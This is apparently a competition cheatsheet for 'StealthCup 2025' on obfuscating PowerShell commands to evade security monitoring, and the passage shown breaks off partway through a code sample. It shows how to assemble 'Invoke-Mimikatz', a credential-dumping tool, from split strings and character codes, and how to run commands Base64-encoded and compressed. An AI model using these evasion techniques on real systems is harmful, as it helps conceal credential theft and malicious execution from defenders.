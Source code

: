 # StealthCup 2025: Command Obfuscation Cheatsheet

This cheatsheet focuses on techniques to obfuscate commands and activities to avoid detection by security monitoring systems in the StealthCup environment. Command obfuscation is a critical component of alert evasion, helping you achieve objectives while minimizing detection.

## 1. PowerShell Obfuscation Techniques

PowerShell is heavily monitored but offers many obfuscation possibilities.

- **String Manipulation**:
  - **Concatenation**: Split strings to avoid signature detection.
    ```powershell
    # Instead of:
    Invoke-Mimikatz
    
    # Use:
    $a = 'Invoke-'; $b = 'Mimi'; $c = 'katz'; Invoke-Expression ($a+$b+$c)
    ```
  
  - **Character Codes**: Use character codes to build strings.
    ```powershell
    # Instead of:
    Invoke-Mimikatz
    
    # Use:
    Invoke-Expression ([char]73+[char]110+[char]118+[char]111+[char]107+[char]101+[char]45+[char]77+[char]105+[char]109+[char]105+[char]107+[char]97+[char]116+[char]122)
    ```

- **Encoding Techniques**:
  - **Base64 Encoding**: Encode entire scripts or commands.
    ```powershell
    # Encode a command
    $Command = "Get-Process"
    $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Command)
    $EncodedCommand = [Convert]::ToBase64String($Bytes)
    
    # Execute encoded command
    powershell.exe -EncodedCommand $EncodedCommand
    ```
  
  - **Compression**: Compress scripts before encoding.
    ```powershell
    # Compress and encode
    $Command = "Your long PowerShell script here"
    $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Command)
    $CompressedStream = New-Object IO.MemoryStream
    $DeflateStream = New-Object IO.Compression.DeflateStream ($CompressedStream, [IO.Compression.CompressionMode]::Compress)
    $DeflateStream.Write($Bytes, 0, $Bytes.Length)
    $DeflateStream.Close()
    $CompressedBytes = $CompressedStream.ToArray()
    $EncodedCommand = [Convert]::ToBase64String($CompressedBytes)
    